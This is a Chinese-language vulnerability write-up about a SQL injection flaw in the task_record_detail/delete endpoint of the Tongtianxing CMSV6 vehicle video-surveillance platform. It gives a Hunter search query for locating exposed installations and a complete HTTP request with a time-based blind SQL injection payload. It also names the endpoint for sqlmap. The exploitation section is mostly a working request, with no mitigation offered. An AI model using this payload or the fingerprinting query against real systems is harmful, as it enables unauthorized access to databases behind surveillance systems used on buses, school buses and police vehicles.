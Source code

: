 # 通天星CMSV6车载视频监控平台 task_record_detail/delete存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台task_record_detail/delete存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/lOUel4FBxVvzVwmN/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-677661.png)

# 四、漏洞复现
```java
GET /task_record_detail/delete;downloadLogger.action?ids=1)+AND+(SELECT+5394+FROM+(SELECT(SLEEP(5)))tdpw)--+  HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=58586A7CBD64C381945F9AAACFDF7C40
Connection: close
Content-Length: 0
```

![1712850651277-f7c97be6-37ce-4294-a3de-578d5aa2ea1d.png](./img/lOUel4FBxVvzVwmN/1712850651277-f7c97be6-37ce-4294-a3de-578d5aa2ea1d-177606.png)

sqlmap

```java
/task_record_detail/delete;downloadLogger.action?ids=1)
```

![1712850782609-4e5c9d7e-83f7-424a-a2c9-6b4e13128715.png](./img/lOUel4FBxVvzVwmN/1712850782609-4e5c9d7e-83f7-424a-a2c9-6b4e13128715-805008.png)



> 更新: 2024-12-28 13:05:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cnd2xobo2ctwtife>